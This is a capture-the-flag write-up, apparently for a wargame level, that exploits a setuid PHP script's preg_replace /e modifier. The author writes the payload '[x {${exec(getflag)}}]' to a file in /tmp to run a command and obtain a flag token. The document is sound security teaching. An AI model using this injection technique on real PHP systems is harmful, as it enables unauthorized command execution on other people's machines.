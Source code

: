 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

We have an executable and a .php file.

Since we can execute the level06 let's try it.

```bash 
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We see that he expects an argument. Let's try :
```bash 
$ ./level06 coucou
PHP Warning:  file_get_contents(coucou): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

Okay so it waits for a file.
Let's look at the .php file itself.

```bash 
$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

This script reads a file, processes its content through string manipulations, and outputs the modified result.

The  '/e' option in the preg_replace function, allows content  to be evalauted as code, allowing us to execute comnmands.

Same as the previous exercice we are going to inject 'getflag' in script. Only the syntax will change but the principle stays the same.



```bash 
$ echo '[x {${exec(getflag)}}]' > /tmp/coucou 
$ ./level06 /tmp/coucou

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1


````



